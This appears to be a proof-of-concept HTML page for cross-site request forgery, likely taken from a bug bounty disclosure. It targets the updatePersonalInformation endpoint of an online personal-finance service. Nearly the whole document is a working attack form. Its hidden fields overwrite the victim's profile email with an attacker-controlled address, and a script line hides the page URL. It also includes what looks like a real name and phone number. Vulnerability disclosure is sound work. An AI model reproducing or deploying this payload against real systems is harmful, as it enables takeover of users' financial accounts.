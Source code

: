 <html>
  
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://money.yodlee.com/services/Authenticator/updatePersonalInformation/?app=10003700&instance=&status=published&token=undefined&resturl=https://172.17.25.209/services/srest/pfm3&version=1003.05&cobAppExtension=pfm3" method="POST">
      <input type="hidden" name="firstName" value="Sahad" />
      <input type="hidden" name="lastName" value="NK" />
      <input type="hidden" name="emailID" value="attacker123&#64;gmail&#46;com" />
      <input type="hidden" name="country" value="United&#32;States&#32;of&#32;America" />
      <input type="hidden" name="mobileNo" value="&#43;1&#45;7012722544" />
      <input type="hidden" name="shareInfo" value="true" />
      <input type="hidden" name="receiveEmails" value="true" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
